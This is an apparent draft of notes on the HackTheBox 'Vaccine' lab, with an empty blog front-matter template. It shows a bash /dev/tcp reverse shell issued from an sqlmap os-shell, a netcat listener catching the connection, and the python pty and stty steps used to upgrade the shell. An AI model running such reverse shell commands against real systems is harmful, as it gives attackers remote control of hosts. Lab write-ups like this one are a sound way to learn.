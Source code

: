 ```yaml
---
title: 
categories: [, Basic]
tags: []
image:
    path: /
---
```



```
os-shell> bash -c 'sh -i >& /dev/tcp/10.10.14.175/443 0>&1'
```


```
┌──(root㉿kali)-[/home/user]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.175] from (UNKNOWN) [10.129.97.79] 51248
sh: 0: can't access tty; job control turned off
$ ls
```

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'    
postgres@vaccine:/var/lib/postgresql$

postgres@vaccine:/var/lib/postgresql$ export TERM=xterm
export TERM=xterm
```

```
postgres@vaccine:/var/lib/postgresql$ ^Z
zsh: suspended  nc -lnvp 443
```


┌──(root㉿kali)-[/home/user]
└─# stty raw -echo ; fg
[15]    continued  nc -lnvp 443

postgres@vaccine:/var/lib/postgresql$



reference
> https://medium.com/@aniketdas07770/hackthebox-vaccine-writeup-f5e19028a3fa